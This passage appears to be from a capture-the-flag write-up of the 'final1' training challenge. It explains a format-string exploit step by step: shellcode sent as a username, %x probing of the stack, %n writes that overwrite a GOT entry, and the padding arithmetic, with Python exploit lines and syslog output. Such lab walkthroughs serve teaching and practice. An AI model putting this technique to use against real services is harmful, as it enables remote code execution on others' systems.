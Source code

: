 ```python
sock.send("username " + shellcode + "\n")
waitForLine(sock)
sock.send("login " + "AAAAA" + " %x" * 30  + "\n")
```

The `waitForLine()` function is a small helper that will cause the application to hang if nothing is received from the user, also accounting for the `[final1] $ ` that heads every message.  We connect to the server using a socket and then will send the shell code with the username and then a password of `[%x]`'s headed by `AAAAA`, then will let us attempt to find the `A`'s in the `syslog` to find out which argument the `A`'s are on the stack.
```bash
Jan  3 04:25:02 (none) final1: Login from 127.0.0.1:50674 as [1�Ph//shh/bin��PS���#013̀] with password [AAAAA 8049ee4 804a2a0 804a220 bffffbd6 b7fd7ff4 bffffa28 69676f4c 7266206e 31206d6f 302e3732 312e302e 3630353a 61203437 315b2073 2f6850c0 6868732f 6e69622f 5350e389 bb0e189 205d80cd 68746977 73617020 726f7773 415b2064 41414141 20782520 25207825 78252078 20782520 25207825]
```
We can see that `A`'s start in the last byte of the 24th argument and take up the whole 25th argument. Then means that we can modify the GOT entry by changing the code as follows:
```python
sock.send("login " + "A" + struct.pack("I", got) + struct.pack("I", got + 2) + "%1000x" + "%25$n"  + "%1000x" + "%26$n" +  "\n")
```
We can use `struct.pack` to help us reverse the bytes in the GOT address without us having to do it manually.  Another interesting point is that there are two `struct.pack()` calls, one for `got` and one for `got + 2`, this is because we will write the lower 4 bytes of the GOT first and then write to upper 4 bytes of the GOT to save time. The value that we are writing to write to the GOT entry is `0x804a220` or `134521376`, it takes a bit of time for `printf()` to process this much padding and thus we can save some time by simply writing twice instead. It should also be noted that the lower bytes need to be written first, since it writing to the lower bytes will also overwrite the upper bytes.

We know that the addresses that we've put into the message are the 25th and 26th argument on the stack and thus we can use the "%x$n" syntax to write to them.

Now to calculate the padding,  the easiest to do this is to simply attach a debugger to `final1` using `ps -aux | grep final1`  to find the `pid` of `final1`, attaching `gdb` to `final1`. We can then set `set follow-fork-mode child`, which will let `gdb` follow the forking that is done by the binary. We can then set a break point after `logit()`, then we can use `x/x 0x804a174` to see what the value is and then increase or decrease the padding accordingly.

However, slightly more methodical way to do this would be to calculate by hand the amount of padding that is required. Let's take a look at the string that is passed to `syslog`.
```c
snprintf(buf,  sizeof(buf),  "Login from %s as [%s] with password [%s]\n", hostname, username, pw);
```

We are really only interested in the amount of characters before the start of password. This can be calculated using the following formula:
`l = len("Login from  as [] with password [") + len(hostname) + len(username) + 9`

The 9 comes from the `A` followed by two addresses which accounts for 9 bytes at the beginning of our 'password'.  The `hostname` can be retrieved by using `sock.getpeername()[0] + ":" + str(sock.getpeername()[1])`. 

Now to calculate the size of the padding we'll need to get to `0xa220`, we essentially just do `0xa220 - l`, or `(username & 0x000ffff) - l`.
